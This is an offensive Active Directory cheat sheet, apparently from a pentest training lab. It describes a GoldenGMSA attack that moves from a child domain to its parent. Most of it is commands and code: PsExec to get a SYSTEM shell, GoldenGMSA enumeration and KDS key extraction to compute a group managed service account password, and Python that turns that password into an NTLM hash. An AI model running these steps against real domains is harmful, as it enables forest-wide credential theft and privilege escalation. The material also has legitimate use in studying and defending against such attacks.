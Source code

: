To compromise a parent domain from a child domain we use GoldenGMSA. Need to be member of enterprise admins, domain admins or SYSTEM on a DC.&#x20;

**Online Attack**

1. Get the **gMSA SID** from the **parent domain.**
2. Use the **SID** to calculate the gMSA password by querying both parent and child domains.

```powershell
# Open PS as SYSTEM
.\PsExec -s -i powershell

# Enumerate
.\GoldenGMSA.exe gmsainfo --domain inlanefreight.ad

# Get gMSA password
.\GoldenGMSA.exe compute --sid "S-1-5-21-2879935145-656083549-3766571964-1106" --forest dev.zencorp.ad --domain zencorp.ad
```

**Offline Attack**

1. **Retrieve the gMSA SID** and **msDS-ManagedPasswordID** from the **parent domain**.
2. **Get the KDS key info** from the **child domain** using **SYSTEM privileges**.
3. **Manually compute** the gMSA password using the **GoldenGMSA tool** by combining the **KDS key and gMSA attributes**.

```powershell
# Open PS as SYSTEM
.\PsExec -s -i powershell

# Get msds-ManagedPasswordID
.\GoldenGMSA.exe gmsainfo --domain inlanefreight.ad

# Get kdsinfo
.\GoldenGMSA.exe kdsinfo --forest dev.inlanefreight.ad

# Compute gMSA password
PS C:\Tools> .\GoldenGMSA.exe compute --sid "S-1-5-21-2879935145-656083549-3766571964-1106" --kdskey AQAAAAwsk7o0XG
```

Convert password

```python
# hashlib
import hashlib
import base64
 
base64_input  = "WITSKRtGahQFvL/iUmJfQbRIJ7S7GMW+nKUj+TlJ4YZJyZ6pjlp5caC78rC4oY6woKxe294/hPCCl6nL2NNWSmj6f1GlmFKvizvlABXVpLqIGbQvyZEbYhPr+twasnf4m+B0qmwj4fXUx8qQAy+cEIV8sd18ZvOLKet7259cIbXTV1lbO3gxIEmDDjMmgP6QD1GQDHnr4xxgwR5YKZC9CbK01db3SWlpPYxElx30MGwzMLtL17ccxmGYAMzqNq/R9ldEq/hC4WDJ3hGg4CVagcOuHOQPOJ6Nh0+x4CBE46CoshfID+3wyswFI/akytdBDVyNk1hj9KH4v/kizCPw6A=="

print(hashlib.new("md4", base64.b64decode(base64_input)).hexdigest())

# md4
from Crypto.Hash import MD4
import base64

base64_input  = "WITSKRtGahQFvL/iUmJfQbRIJ7S7GMW+nKUj+TlJ4YZJyZ6pjlp5caC78rC4oY6woKxe294/hPCCl6nL2NNWSmj6f1GlmFKvizvlABXVpLqIGbQvyZEbYhPr+twasnf4m+B0qmwj4fXUx8qQAy+cEIV8sd18ZvOLKet7259cIbXTV1lbO3gxIEmDDjMmgP6QD1GQDHnr4xxgwR5YKZC9CbK01db3SWlpPYxElx30MGwzMLtL17ccxmGYAMzqNq/R9ldEq/hC4WDJ3hGg4CVagcOuHOQPOJ6Nh0+x4CBE46CoshfID+3wyswFI/akytdBDVyNk1hj9KH4v/kizCPw6A=="

print(MD4.new(base64.b64decode(base64_input)).hexdigest())

```
